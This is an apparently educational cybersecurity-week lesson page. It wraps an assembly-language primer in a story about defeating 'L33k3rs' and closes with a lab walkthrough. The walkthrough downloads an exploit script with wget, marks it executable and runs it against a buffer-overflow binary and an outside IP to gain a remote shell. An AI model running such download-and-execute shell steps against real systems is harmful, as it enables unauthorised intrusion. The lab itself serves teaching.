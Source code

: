 # Welcome to the Final day of Cybersecurity week!

![My guy typing](https://i.insider.com/515583f1eab8ea9a5d00001b?width=1100&format=jpeg&auto=webp)

# Endgame

<div style="margin:auto; display:flex; flex-direction:column; height:800px; max-width:500px">
    <iframe border="0" src="https://crosswordlabs.com/embed/2020-06-24-165?clue_height=40" style="flex:1; width:100%; padding:5px 0px 0 5px; border:3px solid black; "></iframe>
    <a target="_blank" style="align-self:center; font-size:12px; color:black; padding-top:10px; text-decoration:none;text-align:center" href="https://crosswordlabs.com">Crossword Puzzle Maker</a>
</div>

<br> 

Today is the last day of Cybersecurity week. Alice and Bob are pleased with how far you have come in your learnings
and how you have helped the Cyber House in their epic battle against the L33k3rs.

Yesterday you helped the Cyber House achieve a major accomplishment. Alice and Bob, thanks to you, were able to obtain 
information on all member of the L33k3rs. As we speak, Cyber House agents are tracking these people down to put
an end to their l33king schemes

![L33k3rs info](https://udel.codes/cyber4/phishing/L33k3r_Database.png)'

Our battle against the L33k3rs is coming to a close, however there is still one thing left to do.

### The Nano Bots!

We still have to shut down the nano bots. The nano bots are still in the Global Dessert Vault sending recipes to the L33k3rs. In order to stop them, we need to understand a very important programming language. **Assembly Language.**

# Assembly Language

![Assembly](https://y31uv4ra1.vo.llnwd.net/content/wp/tweaklibrary_com/uploads/2017/07/49561-assembly-language-1280x720.jpg)

Assembly Language is the original true low-level computer language with pure instructions that directly translate into machine code.

*To explain:*

- There are languages that are considered **High-Level Programming Langauges**, these languages include Python, Java, Javascript, Scratch, ect. These programming languages are then broken down to a **Lower-level Programing Language**

- **Low-Level Programming Languages**, like Assembly and Machine Code, communicate more directly with the computer. Meaning they are more closely related to the computer's core language, like binary. (1's and 0's)

*So why have High-Level Languages if they are just turned into a Low-Level Language?*

- This is because Low-Level Languages are difficult to use and harder to understand then High-Level Languages. High-Level Languages are much easier to read, write, and maintain. If you think coding in general is hard, Assembly is that much harder. 

### Why do we need to know this?

We need to know what assembly does because it is going to help us take down the L33k3rs!

Alice and Bob need us to take control of a L33k3r server so we can destroy it from the inside out! This is called pwning. So we will be compromising another server to gain access, almost like how we used the File Upload Exploit to gain access to the Global Dessert Vault!

---

# Infiltrate the L33k3rs!

So, let go to the terminal we have been using the past couple of days:  <a href="http://157.230.203.138/term" target="_blank">TERMINAL</a>

First begin by listing all the files in the home directory
- `ls`

Next we will move into the secsoft directory
- `cd secsoft`

Now let us list the files in this directory
- `ls`

Let's read the bufover-2.c file. This is a c file containing c code. This will generate 
- `cat bufover-2.c`

Now we will read the bufover-2 file. This file is the executable for the file we just read. Meaning it will run bufover-2.c.
- `cat bufover-2`

Let's run the executable
- `r2 -Ad bufover-2`

Now that our process is running, let's enter this for the input.
- `Vpp`

What you are seeing is the assembly code for the bufover-2.c file. You can navigate through the code by using the "j" and "k" keys.
To Exit out of this view, press q
- `q`

The program is asking us a few questions, let's answer them by pressing the enter key twice.
- `enter`
- `enter`

Next we are going to download some code made by Alice and Bob that will help us infiltrate the L33k3r server. 

The code below is a script we will run which will create a completely new Bash Terminal that will have control over their server!
- `wget http://prof.ninja/bash32.sh`

The command below will give the file we just downloaded exectuable permission.
- `chmod +x bash32.sh`

Now let's run out script to infiltrate the L33k3r Server!
- `./bash32.sh bufover-2 167.172.231.203 8888`

---

# We're In!

![Access Granted](https://ak.picdn.net/shutterstock/videos/33710788/thumb/5.jpg)

You have now sucessfully infiltrated the L33k3r server. Now look around using the terminal to try and find anything we can use to shutdown their system or to shut down the nanobots!

### Food for thought?

Maybe look for **kill codes**?
- `killcodes.txt`

### Once you find the Kill Code put it into <a href="http://learnification.fun" target="_blank">Learnification.fun!</a> 

# You did it!

![congrats](https://clipartart.com/images/cogratulations-clipart-1.png)


### We have successfully taken down the l33k3rs!

Alice and Bob are so proud! You have been a great help to the Cyber House. Yet there are more things for you to learn in your quest to become an agent in the Cyber House!

Go to this link here to begin your next exercise:

- <a href="http://udel.codes/cyber4/phishing/funwithphish" target="_blank">Phishing</a> 

<br>

# <a href="http://udel.codes/cyber4/victory" target="_blank">CONCLUSION</a> 


